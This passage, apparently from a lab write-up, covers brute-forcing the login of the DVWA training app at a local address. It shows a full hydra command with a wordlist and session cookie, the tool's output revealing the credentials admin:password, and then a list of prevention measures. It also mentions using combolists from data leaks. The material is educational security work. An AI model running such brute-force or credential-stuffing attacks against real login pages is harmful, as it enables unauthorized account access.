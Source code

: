 ```
hydra 192.168.0.80 -l admin -P resources/wordlist.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=ivrfokob8oem54eevcr7pt3el4" -t64
```
After 3 minutes of cracking we got following result:
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-08 15:12:01
[DATA] max 64 tasks per 1 server, overall 64 tasks, 7776 login tries (l:1/p:7776), ~122 tries per task
[DATA] attacking http-get-form://192.168.0.80:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=ivrfokob8oem54eevcr7pt3el4
[STATUS] 2777.00 tries/min, 2777 tries in 00:01h, 4999 to do in 00:02h, 64 active
[80][http-get-form] host: 192.168.0.80   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-08 15:13:39
```
Let' s try `admin`:`password` combination.

![](resources/bruteforce_result.png)

It worked, also we can use brute-force attack with combolist from any leak. This is why having different password on every website is very important.

## How to prevent from this vulnerability?
- Where possible, implement multi-factor authentication to
prevent automated, credential stuffing, brute force, and stolen
credential re-use attacks.
- Do not ship or deploy with any default credentials, particularly
for admin users.
- Implement weak-password checks, such as testing new or
changed passwords against a list of the [top 10000 worst
passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords).
- Align password length, complexity and rotation policies with
[NIST 800-63 B's guidelines in section 5.1.1 for Memorized
Secrets](https://pages.nist.gov/800-63-3/sp800-63b.html#memsecret) or other modern, evidence based password policies.
- Ensure registration, credential recovery, and API pathways are
hardened against account enumeration attacks by using the
same messages for all outcomes.
- Limit or increasingly delay failed login attempts. Log all failures
and alert administrators when credential stuffing, brute force, or
other attacks are detected.
- Use a server-side, secure, built-in session manager that
generates a new random session ID with high entropy after
login. Session IDs should not be in the URL, be securely stored
and invalidated after logout, idle, and absolute timeouts.